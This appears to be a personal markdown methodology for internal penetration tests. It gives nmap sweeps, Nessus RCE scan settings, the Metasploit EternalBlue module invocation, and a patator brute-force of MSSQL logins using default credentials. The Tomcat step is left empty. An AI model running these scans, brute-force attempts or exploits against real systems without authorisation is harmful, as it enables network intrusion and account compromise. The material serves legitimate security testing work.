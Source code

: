 # Internal pentesting - Methodology

Internal pentesting simulates an insider attack starting from a point within
the internal network.

The present note does not address Active Directory pentesting. While part of the
methodology detailed in this note can be applied for an Active Directory
pentesting, specific tools and techniques make the overall approach completely
different.

### Low hanging fruits

The first step in an internal pentesting is to look for the path of least
resistance, the low hanging fruits that can easily be detected and exploited
(unpatched systems, default or guessable passwords, etc.).

The following steps represent my personnal methodology when starting an
internal penetration test:

  1. Nessus scan on all ports testing for RCE

     ```
     # Transfomr a list of servers hostnames / IP into a comma separated list
     sed ':a;N;$!ba;s/\n/ /g' <FILE>
     
     Advanced Scan
     # Scan all 0-65535 ports
     Settings -> Discovery -> Scan type -> Port scan (all ports)
     # Scan for RCE vulnerabilities
     Plugins -> Only keep "Backdoors", "Gain a shell remotely" and "Service detection" enabled
     ```

  2. Ping sweep with nmap

     ```
     IP="IP" && SUB="MASK"
     nmap -v -sn -oG "ping_sweep_$IP-$SUB.gnmap" "$IP/$SUB"
     grep Up ping_sweep_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "ping_sweep_$IP-$SUB.txt"
     ```

  3. Quick port scan with nmap

     ```
     nmap -v -sS -A -oA "quick_scan_tcp_$IP-$SUB" -iL "ping_sweep_$IP-$SUB.txt"
     ```

  4. SMB RCE vulnerabilities, notably EternalBlue & SambaCry, detection and
     exploitation

     ```
     grep -w '445' quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "SMB_$IP-$SUB.txt"
     nmap -v -p 139,445 --script=vuln -oG

     # MS17-010
     # Windows 7 and Server 2008 R2 (x64) All Service Packs
     msf> use exploit/windows/smb/ms17_010_eternalblue
     ```

  5. MSSQL default or guessable credentials

     ```
     grep -w '1433' quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "MSSQL_$IP-$SUB.txt"

     # Usernames: sa, Administrator, Administrateur
     # Passwords: blank, sa or Password123
     patator mssql_login host=FILE0 user=FILE1 password=FILE2 0="MSSQL_$IP-$SUB.txt" 1=<WORDLIST_USER> 2=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'
     ```  

  6. Exposed rlogin and rexec services without password

     ```
     grep -w "512\|513" quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "RLOGIN_$IP-$SUB.txt"
     ```

  7. Tomcat guessable credentials

     ```
     ```

  8. Review Nessus RCE scan results
